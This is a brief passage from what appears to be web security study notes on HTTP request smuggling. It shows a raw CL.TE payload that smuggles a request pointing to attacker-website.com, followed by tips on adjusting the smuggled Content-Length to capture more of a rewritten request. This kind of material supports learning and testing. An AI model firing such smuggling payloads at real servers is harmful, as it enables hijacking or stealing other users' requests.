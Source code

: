 Exploit

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X

```

## <mark style="color:yellow;">Content-Length in the smuggled request</mark>

The value in the `Content-Length` header in the smuggled request will determine how long the back-end server believes the request is. If you set this value too short, you will receive only part of the rewritten request; if you set it too long, the back-end server will time out waiting for the request to complete. Of course, the solution is to guess an initial value that is a bit bigger than the submitted request, and then gradually increase the value to retrieve more information, until you have everything of interest.
